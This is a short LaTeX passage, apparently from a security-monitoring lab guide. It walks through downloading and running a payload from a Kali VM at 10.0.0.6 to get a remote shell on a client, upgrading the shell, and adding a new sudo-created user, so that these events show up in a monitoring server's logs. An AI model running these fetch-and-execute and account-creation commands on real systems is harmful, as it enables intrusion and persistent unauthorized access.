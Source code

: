 \documentclass{article}
\begin{document}
\subsubsection{Download Payload into Agent}
\begin{itemize}
    \item Execute the following:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ curl http://10.0.0.6/payload.out -o payload.out
        ~/payload$ chmod +x payload.out
        ~/payload$ ./payload.out
    \end{verbatim}
    }
    This will connect the client to the Kali VM and the VM will get the shell access of the client
\end{itemize}

\subsubsection{Manipulate client}
\begin{itemize}
    \item Stylize the accessed shell: \texttt{client\$ python3 -c 'import pty; pty.spawn("/bin/bash")'}
    \item If the command \texttt{client\$ whoami } is executed then we can see the hostname of the client in Kali VM
    \item 
    {
    \color{blue}%
    \begin{verbatim}
        client$ groups client
        client$ sudo useradd -m -g <group> <new_username>
        client$ sudo su <new_username>
    \end{verbatim}
    }
    The above commands will create a new user with a role present to the original client. Then, when the server web-ui is visited, we shall see the logs of a new user created and logged in.
\end{itemize}
\vspace{1cm}

\subsection{File Monitoring/Syscheck}
\end{document}
